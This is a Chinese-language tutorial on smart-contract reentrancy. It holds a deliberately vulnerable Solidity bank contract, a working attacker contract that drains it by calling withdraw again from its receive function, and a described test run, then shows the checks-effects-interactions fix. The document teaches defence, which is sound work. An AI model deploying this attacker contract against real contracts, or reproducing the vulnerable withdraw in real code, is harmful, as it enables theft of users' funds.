



调用外部合约的主要危险之一是它们可以接管控制流。在重入攻击(Reentrancy)中，恶意合约在函数的第一次调用完成之前再次回调该调用合约(例如使用receive或fallback函数触发智能合约的再次调用)，这可能会导致函数的重新进入逻辑处理，而此过程中如果没有进行状态变量的更新，则会导致重入攻击。

下面的银行合约提供了deposit和withdraw两个核心函数。其中withdraw函数具有严重的安全漏洞。
```js
contract bank {
    mapping(address => uint256) public balanceOf;

    event Funding(address _addr, uint _val);

    function deposit() payable public {
        require(msg.value >= 1 ether, "msg.value not enough");
        balanceOf[msg.sender] = msg.value;
        emit Funding(msg.sender, msg.value);
    }

    function withdraw() payable public {
        uint bal = balanceOf[msg.sender];
        require(bal > 0);
        (bool success, ) = msg.sender.call{value: bal}("");
        require(success, "failed to send");

        balanceOf[msg.sender] = 0;
    }

    function getBalance() view public returns (uint) {
        return address(this).balance;
    }
}
```
receive函数在实现时，合约可以像普通的钱包地址一样接收外部转账。如果上述代码的withdraw函数中的msg.sender是一个合约地址的话，而恰好这个合约内部实现了receive函数，那么receive函数将会被执行(如果实现带有payable的fallback函数也可以)。如果receive函数又去调用银行合约的withdraw函数，此时就发生了重入攻击。也就是说，withdraw函数中call执行的时候会触发receive函数，receive函数内部通过withdraw又重新调用银行合约，这样形成一个循环嵌套调用，最终会将银行合约的资金全部盗走。

下面示例代码是针对上述漏洞合约的攻击合约。它的attack函数是攻击函数，它会通过执行deposit函数向银行转账1个ETH，然后再调用银行合约的withdraw函数，就产生了重入攻击。
```js
contract attacker {
    bank bk;

    constructor(address addr) {
        bk = bank(addr);
    }

    function attack() public payable {
        bk.deposit{value: 1.1 ether}(); // 比1ETH要多一些，这里存入1.1ETH
        bk.withdraw();
    }

    receive() payable external {
        if (address(bk).balance >= 1 ether) {
            bk.withdraw();
        }
    }

    function getBalance() view public returns(uint) {
        return address(this).balance;
    }
}
```

这是完整的[合约文件](sol/reentrancy.sol)。

接下来进行测试通过两个账户进行测试。

部署银行合约，拿到银行合约地址后再部署攻击合约。

选择账户A，在银行合约视图通过"deposit"存入10ETH。



切换到另一个账户B，在攻击合约视图点击"attack"按钮。



最后，查看银行合约中的资金。



可以看到，经过测试，攻击很顺利。

避免重入攻击的一个方法是"检测->生效->调用"。即先检测数据是否有效，然后立即修改状态变量使其生效，之后再执行外部调用。

在上面的银行合约中，在withdraw函数中，可以将`balanceOf[msg.sender] = 0;`这句代码提到call执行前。
```js
function withdraw() payable public {
    uint bal = balanceOf[msg.sender];
    require(bal > 0);

    balanceOf[msg.sender] = 0; // 先改变状态，再调用

    (bool success, ) = msg.sender.call{value: bal}("");
    require(success, "failed to send");
}
```

另外，当涉及ETH转账时，尽可能使用`transfer`，而不是使用call，因为transfer内封装了call调用，并且限制了本次执行最多消耗2300个Gas，这样就可以在一定程度上避免循环调用的发生。

